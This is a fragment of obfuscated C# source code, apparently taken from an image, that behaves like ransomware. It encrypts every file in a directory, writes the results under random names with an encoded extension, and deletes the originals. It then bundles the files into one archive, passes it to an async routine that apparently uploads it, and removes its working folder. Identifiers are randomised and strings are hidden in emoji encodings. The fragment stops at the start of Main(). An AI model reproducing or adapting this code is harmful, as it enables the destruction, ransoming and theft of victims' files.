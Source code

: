 ```
            string[] files = Directory.GetFiles(path2);
            foreach (string text2 in files)
            {
                list.Add(text2);
                try
                {
                    byte[] bytes2 = TxWVCaCGswNFFkFNyyuGYebzTnmKMI(File.ReadAllBytes(text2), array);
                    string text3 = eOUFdPmHAHcqPJQRyafSXBf(20);
                    File.WriteAllBytes(Path.Combine(Path.GetDirectoryName(text2), text3 + NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("\ud83d\udc9c\ud83c\udf63\ud83d\udcaf\ud83d\udc9b\ud83c\udf75\ud83d\udc8f\ud83d\udd0c\ud83d\udd0c")), bytes2);
                    File.Delete(text2);
                    Thread.Sleep(500);
                }
                catch
                {
                }
            }
        }
        File.WriteAllLines(Path.Combine(text, NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("\ud83d\udd01⚽\ud83c\udd7f\ufe0f\ud83c\udf87⏩\ud83d\udc0f\ud83d\udc5e\ud83d\udeb4\ud83c\ude01ℹ\ufe0f✒\ufe0f\ud83c\udf6f⏩\ud83d\udd38\ud83d\udc5e\ud83c\udfc8⏩\ud83d\udcc9\ud83d\udc36\ud83d\udeb4\ud83d\udc23\ud83c\ude51\ud83d\ude8f\ud83c\udf7a")), list, Encoding.UTF8);
        string text4 = Path.Combine(text, NxfINLZaaZZezaCgDHsGdzSaNiURAmtiyEBgprNsxjKzd("\ud83d\udcd3\ud83d\udc7b\ud83d\udd0e\ud83c\udfa99\ufe0f\u20e3\ud83d\udc0f\ud83d\udd0e\ud83c\udf7b⏩\ud83d\udeb9\ud83c\ude3a⚽\ud83d\udc58\ud83d\udcbb\ud83d\udd0c\ud83d\udd0c"));
        string[] files2 = Directory.GetFiles(text);
        lzzmjArGgUUExMsxcUOqmdCCBrduwURYMq(text4, files2);
        hVQylKhewOSgWxHuxbNcBpLUQmdgVGemoKmKEvbqat(text4).Wait();
        Thread.Sleep(5000);
        Directory.Delete(text, recursive: true);
    }

    private static void Main()
    {
```